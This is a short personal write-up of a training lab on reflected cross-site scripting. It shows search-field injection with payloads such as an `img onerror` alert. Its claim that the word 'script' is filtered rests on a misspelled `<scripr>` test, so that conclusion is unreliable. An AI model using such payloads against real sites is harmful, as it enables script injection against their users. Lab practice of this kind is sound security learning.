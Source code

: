 # Lab: Reflected XSS into HTML context with nothing encoded  
**Level:** APPRENTICE  

---

## 🔗 Lab URL  
[https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/](https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/)

---

## 🧪 Steps (My Approach)

1. ✅ **Typed `coffee`** in search → reflected in:
   - URL parameter  
   - Page body:
     
   ```html
     <h1>0 search results for 'coffee'</h1>
     ```

2. ✅ **Tested `coffee">`**  
   → Output:  
   ```html
   <h1>0 search results for 'coffee">'</h1>
   ```

3. 🔄 **Tried basic XSS payload**:  
   ```html
   coffee<scripr>alert(1)</script></h1><!--
   ```
   ❌ Blocked: word `script` is filtered.

4. ✅ **Bypassed using `img` tag**:  
   ```html
   coffee<img src=x onerror="alert(1)"></h1><!--
   ```
   🎉 Success! Alert triggered → lab solved.

---

## ✅ Final Payload  
```html
<img src=x onerror="alert(1)">
```

Encoded in URL:  
```
?search=coffee<img src=x onerror="alert(1)"></h1><!--
```

---

## 🛠 Tools  
- Manual testing in browser  
- View Page Source  
- Tried different payloads (script bypass)

---

## 🎯 Goal  
Trigger a JavaScript alert using reflected XSS.

---

## 🧠 Notes  
- No filtering on special characters like `>`  
- Only `<script>` is blocked  
- Closing tags + `<!--` useful to preserve page layout

---

## ✅ Status: Solved
